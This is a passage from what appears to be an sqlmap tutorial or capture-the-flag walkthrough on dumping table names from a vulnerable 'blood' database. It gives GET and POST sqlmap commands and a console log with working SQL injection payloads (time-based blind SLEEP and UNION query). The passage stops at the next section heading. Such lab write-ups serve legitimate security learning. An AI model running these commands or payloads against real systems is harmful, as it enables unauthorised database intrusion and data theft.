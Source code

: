 Now that we have the databases, let's extract tables from the database blood.

### Using GET based Method

\
`sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables`

`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables`

### Using POST based Method

`sqlmap -r req.txt -p blood_group -D blood --tables`

`sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables`

Once we run these commands, we should get the tables.

#### Getting Tables

```shell-session
nare@nare$ sqlmap -r req.txt -p blood_group -D blood --tables
[19:35:57] [INFO] parsing HTTP request from 'req.txt'
[19:35:57] [INFO] resuming back-end DBMS 'mysql'
[19:35:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
---
[19:35:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[19:35:58] [INFO] fetching tables for database: 'blood'
[19:35:58] [WARNING] reflective value(s) found and filtering out
Database: blood
[3 tables]
+----------+
| blood_db |
| flag     |
| users    |
+----------+
```

Once we have available tables, now let’s gather the columns from the table blood\_db.

### Using GET based Method
